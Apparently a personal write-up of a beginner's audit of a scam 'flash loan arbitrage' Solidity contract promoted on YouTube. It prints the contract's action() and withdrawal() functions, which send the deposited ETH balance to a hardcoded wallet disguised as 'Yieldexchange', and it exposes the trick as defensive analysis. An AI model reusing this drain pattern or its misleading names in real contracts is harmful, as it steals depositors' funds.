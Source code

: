## Hello World....of malicious Smart Contracts

### Welcome to my first smart contract audit(It will be rudimentary and probably provide little value but I wanted to docuemtn my first step into this world.)

I have been reading about flash loan bots / MEV bots and was interested in the arbitrage aspect and the related potentila profitability. Much like any easy money scheme there are more opportunities for malcious intent rather than genuine money making strategy. As an infosec professional, i'm already extermely skeptical of everything so naturally, I was drawn to looking into anything claiming to make money FAST. 

I stumbled upon this [Youtube Video](https://www.youtube.com/watch?v=hqsqbjPKTRI&t=2s) talking about a flash loan. linked in the video description was a [Smart Contract](https://githubdata.com/usercontent/raw-data/eth_multiplier_contract_code_raw-30848ds4) I know the VERY bare basics of programming and solidity but I wanted to dig into this with the aid of AI. 

Etherscan has a newer application called [Code Reader](https://etherscan.io/code-reader). I copied the code into here and utilizing the ChatGPT API asked a few questions about this contract.

* What are the functions of this contract?

"The "FlashLoanArbitrage" contract contains the following functions:

1. **Constructor**: This function initializes the contract's token symbol, token name, and loan amount when the contract is first created.

2. **receive()**: A fallback function that allows the contract to receive funds.

3. **findNewContracts**: This function is used to find newly deployed contracts on the Uniswap exchange.

4. **findContracts**: This function extracts the newest contracts from the Uniswap exchange.

5. **loadCurrentContract**: This function loads the current contract.

6. **nextContract**: This function extracts the contract from Uniswap.

7. **memcpy**: This function copies data from the source to the destination in memory.

8. **orderContractsByLiquidity**: This function orders the contracts by available liquidity.

9. **calcLiquidityInContract**: This function calculates the remaining liquidity in a contract.

10. **getMemPoolOffset**: This function returns the memory pool offset.

11. **parseMempool**: This function parses the memory pool.

12. **keccak**: This function returns the keccak-256 hash of a contract.

13. **checkLiquidity**: This function checks if a contract has enough liquidity available

14. **getMemPoolLength**: This function returns the length of the memory pool.

15. **beyond**: This function modifies a slice to contain everything from the first occurrence of needle to the end of the slice.

16. **getMemPoolHeight**: This function returns the height of the memory pool.

17. **callMempool**: This function calls and returns the data of all the contracts in the mempool.

18. **toHexDigit**: This function returns the hexadecimal representation of a digit.

19. **_callMEVAction**: This function performs a MEV action call.

20. **Yieldexchange**: This function returns the selected contract's address.

21. **action**: This function performs a frontrun action on different contract pools.

22. **withdrawal**: This function withdraws the funds back to the contract creator's address.

23. **uint2str**: This function converts an unsigned integer to a string.

24. **getMemPoolDepth**: This function returns the depth of the memory pool.

25. **mempool**: This function loads all Uniswap memory pools into memory."

### 2 odd functions that stuck out to me were action and Yieldexchange. Here are the code snippets of these functions:

``` solidity
   }

    function _callMEVAction() internal pure returns (address) {
        return parseMempool(callMempool());
    }
    function Yieldexchange() public pure returns (address) {
		return 0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05;
	}
    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function action() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }

    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }
```

* Ths function Yieldexchange defines an wallet address. This is NOT a yield exchange.
* And the function action calls Yieldexchange with the transfer function essentially transferring out the etheruem used to run this "Flashloan" to an external wallet.
* I input this address into etherscan and my hypothesis was correct

